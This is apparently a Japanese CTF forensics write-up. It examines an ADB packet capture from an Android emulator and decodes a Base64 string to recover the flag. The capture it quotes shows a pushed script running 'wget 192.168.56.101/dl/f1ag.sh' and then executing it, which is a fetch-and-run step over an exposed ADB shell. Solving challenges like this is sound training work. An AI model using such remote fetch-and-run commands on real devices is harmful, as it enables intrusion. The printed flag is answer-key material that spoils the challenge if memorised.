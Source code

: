 ```
CNXN........#...<
......host::features=stat_v2,cmd,shell_v2CNXN........q....)......device::ro.product.name=android_x86_64;ro.product.model=VirtualBox;ro.product.device=x86_64;features=cmd,shell_v2OPEND.......0...........shell,v2,TERM=xterm-256color,raw:ls -a -d 'sd'*.OKAY-...D...............WRTED...-....................55x104,0x0.OKAY-...D...............WRTE-...D....................sdcard
OKAYD...-...............WRTE-...D.....................CLSE-...D...............OKAYD...-...............CLSED...-...............CLSE-...D...............OPENH...................sync:.OKAY....H...............WRTEH...................STAT....sdcardOKAY....H...............WRTE....H.......8.......STAT.........Z.]OKAYH...................WRTEH...................STAT....sdcard/OKAY....H...............WRTE....H...............STAT.A.......s.]OKAYH...................WRTEH.......\...........SEND....sdcard/getscript.sh,33188DATA+...wget 192.168.56.101/dl/f1ag.sh -P /sdcard/
DONE.p.]
︙
```

`wget 192.168.56.101/dl/f1ag.sh` のように怪しげな文字列が見えます。読み進めます。

```
OKAYL.../...............WRTEL.../.......
............	OKAY/...L...............WRTE/...L....................
x86_64:/sdcard $ sh f1ag.sh                                                                            ............................................................................ OKAYL.../...............WRTEL.../....................
OKAY/...L...............WRTE/...L.......(............

OKAYL.../...............WRTE/...L...s...F%.......n...ZWNobyAnY29uZ3JhdHVsYXRpb25zIScKZWNobyAnZmxhZyBpcyAiY3RyY3Rme2QxZF95MHVfY2wwNTNkXzdoM181NTU1X3Awcjc/fSInIAo=
OKAYL.../...............WRTE/...L....................x86_64:/sdcard $ OKAYL.../...............WRTEL.../.......f............eOKAY/...L...............WRTE/...L.......g............eOKAYL.../...............WRTEL.../.......y............xOKAY/...L...............WRTE/...L.......z............xOKAYL.../...............WRTEL.../.......j............iOKAY/...L...............WRTE/...L.......k............iOKAYL.../...............WRTEL.../.......u............tOKAY/...L...............WRTE/...L.......v............tOKAYL.../...............WRTEL.../....................
OKAY/...L...............WRTE/...L.......,............

......CLSE/...L...............OKAYL.../...............CLSEL.../...............CLSE/...L...............
```

怪しげな Base64 されたと思しき文字列があります。デコードしてみましょう。

```
$ echo ZWNobyAnY29uZ3JhdHVsYXRpb25zIScKZWNobyAnZmxhZyBpcyAiY3RyY3Rme2QxZF95MHVfY2wwNTNkXzdoM181NTU1X3Awcjc/fSInIAo= | base64 -d -
echo 'congratulations!'
echo 'flag is "ctrctf{d1d_y0u_cl053d_7h3_5555_p0r7?}"' 
```

フラグが得られました。

```
ctrctf{d1d_y0u_cl053d_7h3_5555_p0r7?}
```
